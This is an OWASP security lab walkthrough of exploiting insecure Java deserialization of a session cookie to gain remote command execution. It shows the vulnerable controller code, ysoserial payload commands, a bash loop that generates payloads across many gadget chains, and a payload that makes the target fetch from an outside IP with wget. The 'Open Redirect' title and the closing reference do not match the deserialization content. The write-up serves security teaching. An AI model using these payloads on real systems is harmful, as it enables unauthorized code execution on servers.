


# Open Redirect Harder

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-des-java
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-des-java
```


Now that the app is running let's go hacking!


## Reconnaissance

### Step 1

The application shows that there is a username and role fields to be filled. After filling, once you clicked "Submit" will redirect you to a new page containing your provided info.


If we click on the button we will be redirected on the new page [http://localhost:5000/loggedin](http://localhost:5000/loggedin)


#### Step 2

Intercepting the traffic generated by the application, we note that the following endpoint requires 'session' cookie in the request to carry out data to this page. 

```text
GET /loggedin
```


The cookie of 'session' contains data to be processed(deserialized) and then prompts deserialized values to the user.
Once we decode the 'session' cookie as base64, we can see that username and role values are serialized as Java object.



As we suspected from the 'session', it is clearly seen in the code below that 'session' cookie is decoded from 
base64 and passed as constructor value to 'ObjectInputStream' object. Then it is casted to 'User' object as 'User user = (User) obj;'.

```
@GetMapping("/loggedin")
public String loggedIn( @CookieValue(name = "session", required = false) String sessionCookie,Model model){
  if(null != sessionCookie){
      try{
          ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(sessionCookie)));
          Object obj = ois.readObject();
          if((obj instanceof User)){
              User user = (User) obj;
              model.addAttribute("user", user.getUsername());
              model.addAttribute("role", user.getRole());
              return "loggedin";
          }else{
              return "index";
          }
      }catch(Exception e){
          e.printStackTrace();
          return "index";
      }
  }
  return "index";
}
```

Apparently, we can forge ourselves a new 'session' cookie in the form of Java Object which will be deserialized to 'Object' by 'ois.readObject()'. 

### Step 3

Forging Java objects manually takes too much effort, so we will be using a tool called ['ysoserial'](https://github.com/frohoff/ysoserial). The one can use precompiled jar file or compile it yourself. 
It is a collection of utilities and property-oriented programming "gadget chains" discovered in common java libraries that can, under the right conditions, exploit Java applications performing unsafe deserialization of objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes this data, the chain will automatically be invoked and cause the command to be executed on the application host.
  

```
Usage: 
java -jar ysoserial-[version]-all.jar [payload] '[command]'

Sample:
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar  Spring1 'touch /tmp/pwn' | base64 -w0
```


Executing the sample command will yield a base64 encoded payload to be used to replace 'session' cookie in the application.


## Exploitation

Having the potential attack vector and the hady tool (ysoserial), we can try to exploit the deserialization vulnerability
The tools provides around 34 different payload to be generated using different classpaths.

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
```


We can prepare a ysoserial payload to run a OS command that create a new file '/tmp/pwn' on a Linux target. The command
can be different for Windows.

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 'touch /tmp/pwn' | base64 -w0
```

We created the payload using 'CommonsCollections1' and as OS command 'touch /tmp/pwn' to generate the following payload. 


The previously created payload is replaced with the 'session' value and sent to the server as below.


On the server, we checked that there is no such file '/tmp/pwn', which means the attack failed. There are other ways
to check whether it succeded or not, for example using an outbound connection like sending DNS query to external DNS server.
We need to use other classpath payloads until we successfully execute command on the server.


Instead of doing it manually, we can use the following bash script to generate payloads for different classpaths.
```
#!/bin/bash

payloads="BeanShell1 Clojure CommonsBeanutils1 CommonsCollections1 CommonsCollections2 CommonsCollections3 CommonsCollections4 CommonsCollections5 CommonsCollections6 CommonsCollections7 Groovy1 Hibernate1 Hibernate2 JBossInterceptors1 JRMPClient JSON1 JavassistWeld1 Jdk7u21 MozillaRhino1 MozillaRhino2 Myfaces1 Myfaces2 ROME Spring1 Spring2 Vaadin1 Wicket1"
for payload in $payloads; do
   echo "Generating for $payload"
   cmd="java -jar ysoserial-0.0.6-SNAPSHOT-all.jar $payload 'touch /tmp/pwn' | base64 -w0 > base64payload_$payload"
   echo "$cmd"
   eval "$cmd"
done
echo "Done."

```

Once we have the generated payload, let's give it to the intruder and find out if we ever succeeded.


It is seen that there is a file created on '/tmp/pwn', which means we successfully executed OS command on the server. 



After some checking, we found out that the following payload is succeeded for 'CommonsCollections5'.


Lets try running different command to test out of bound connection using following commands;

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "wget http://192.168.13.131" | base64 -w0
```


Yes! we got outbound connection that we can execute OS commands successfully!!

## Additional sources

- [https://www.owasp.org/index.php/Testing_for_Client_Side_URL_Redirect\_(OTG-CLIENT-004)](<https://www.owasp.org/index.php/Testing_for_Client_Side_URL_Redirect_(OTG-CLIENT-004)>)
